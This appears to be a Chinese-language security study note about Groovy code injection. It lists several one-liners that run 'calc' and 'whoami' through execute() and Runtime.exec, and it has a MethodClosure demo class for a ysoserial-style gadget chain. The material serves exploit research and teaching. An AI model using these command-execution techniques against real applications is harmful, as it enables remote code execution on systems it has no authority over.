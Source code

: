 运行这样一个Groovy代码，将会弹出一个计算器，成功执行了命令(def是用来定义标识符)

```java
//其他执行命令执行的方法
Runtime.getRuntime().exec("calc")
"calc".execute()
'calc'.execute()
"${"calc".execute()}"
"${'calc'.execute()}"

//回显的方式
println "whoami".execute().text
println 'whoami'.execute().text
println "${"whoami".execute().text}"
println "${'whoami'.execute().text}"
def cmd = "whoami";
println "${cmd.execute().text}"
```

### 注入点分析

#### MethodClosure

看看他的构造方法

![image-20220419213413728](README/image-20220419213413728.png)

可以发现他传入了一个对象，第二个是对象的方法，通过其中的docall方法进行调用

但是`docall`方法是`protected`修饰的，不能直接调用，调用它的父类`Closure`的call方法间接调用

```java
package ysoserial.vulndemo;

import org.codehaus.groovy.runtime.MethodClosure;

public class GroovyInject {
    public static void main(String[] args) {
//        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
//        methodClosure.call("calc");
        MethodClosure methodClosure = new MethodClosure("calc", "execute");
        methodClosure.call();
    }
}
```

